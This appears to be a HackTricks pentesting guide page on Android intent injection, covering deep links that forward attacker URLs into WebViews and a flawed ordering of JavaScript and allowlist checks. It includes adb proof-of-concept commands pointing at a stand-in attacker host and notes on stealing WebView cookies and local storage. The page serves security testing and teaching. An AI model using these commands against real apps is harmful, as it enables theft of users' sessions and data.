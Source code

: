 # Intent Injection

{{#include ../../banners/hacktricks-training.md}}

Intent injection abuses components that accept attacker-controlled Intents or data that is later converted into Intents. Two very common patterns during Android app pentests are:

- Passing crafted extras to exported Activities/Services/BroadcastReceivers that are later forwarded to privileged, non-exported components.
- Triggering exported VIEW/BROWSABLE deep links that forward attacker-controlled URLs into internal WebViews or other sensitive sinks.

## Deep links → WebView sink (URL parameter injection)

If an app exposes a custom scheme deep link such as:

```text
myscheme://com.example.app/web?url=<attacker_url>
```

and the receiving Activity forwards the `url` query parameter into a WebView, you can force the app to render arbitrary remote content in its own WebView context.

PoC via adb:

```bash
# Implicit VIEW intent
adb shell am start -a android.intent.action.VIEW \
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"

# Or explicitly target an Activity
adb shell am start -n com.example/.MainActivity -a android.intent.action.VIEW \
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"
```

Impact
- HTML/JS executes inside the app’s WebView profile.
- If JavaScript is enabled (by default or due to misordered checks), you can enumerate/use any exposed `@JavascriptInterface` objects, steal WebView cookies/local storage, and pivot.

See also:

{{#ref}}
webview-attacks.md
{{#endref}}

## Order-of-checks bug enabling JavaScript

A recurring bug is enabling JavaScript (or other permissive WebView settings) before the final URL allowlist/verification finishes. If early helpers accept your deep link and the WebView is configured first, your final load happens with JavaScript already enabled even if later checks are flawed or too late.

What to look for in decompiled code:
- Multiple helpers that parse/split/rebuild the URL differently (inconsistent normalization).
- Calls to `getSettings().setJavaScriptEnabled(true)` before the last host/path allowlist check.
- A pipeline like: parse → partial validate → configure WebView → final verify → loadUrl.
